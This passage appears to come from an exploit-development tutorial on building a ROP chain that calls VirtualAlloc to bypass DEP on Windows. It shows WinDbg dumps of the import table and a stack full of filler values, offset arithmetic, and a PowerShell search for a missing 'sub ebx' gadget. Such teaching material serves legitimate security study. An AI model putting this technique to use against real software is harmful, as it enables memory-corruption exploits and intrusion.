 ```python
0:066> dds 0x100252E0
100252e0  77383db0 KERNEL32!VirtualAllocStub
100252e4  7738a430 KERNEL32!IsBadWritePtr
100252e8  773828a0 KERNEL32!IsBadReadPtr
```

As we are pushing `0x45454545` onto the stack as a dummy value, we want to identify where on the stack our dummy address is as shown below. 

```python
0:077> dd esp - 40
0d84e2dc  41414141 41414141 41414141 41414141
0d84e2ec  41414141 41414141 41414141 41414141
0d84e2fc  41414141 45454545 46464646 00000000
0d84e30c  48484848 00000000 51515151 0d84e31c
0d84e31c  50215471 ffffffe4 10012ef4 42424242
0d84e32c  43434343 43434343 43434343 43434343
0d84e33c  43434343 43434343 43434343 43434343
0d84e34c  43434343 43434343 43434343 43434343
0:077> ?0d84e2fc + 4
Evaluate expression: 226812672 = 0d84e300
0:077> ?0d84e2fc + 0x04
Evaluate expression: 226812672 = 0d84e300
0:077> ? esp - 0d84e300
Evaluate expression: 28 = 0000001c
0:077> .formats 0000001c
Evaluate expression:
  Hex:     0000001c
  Decimal: 28
  Octal:   00000000034
  Binary:  00000000 00000000 00000000 00011100
  Chars:   ....
  Time:    Wed Dec 31 16:00:28 1969
  Float:   low 3.92364e-044 high 0
  Double:  1.38338e-322
```

From the above we learn that we need to move `0x1C` bytes from `ESP` e.g. `ESP - 0x1C` to reach our `VirtualAlloc` Address. Because we control `ESP`, we looking at where our example landed. Since we have a copy of `ESP` in the `EBX` register, we need a gadget similar to the following:

```python
SUB EBX, 0x1C
RETN
```

Since we can't find the gadget, we have reached a pitfall and need to get a bit more creative. Refer to the *********Pitfalls********* section for information about various pitfalls and how to overcome them.

```python
gci .\ROPS  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(sub ebx).*?((retn  ;)|(ret  ;))"
###no results###
```
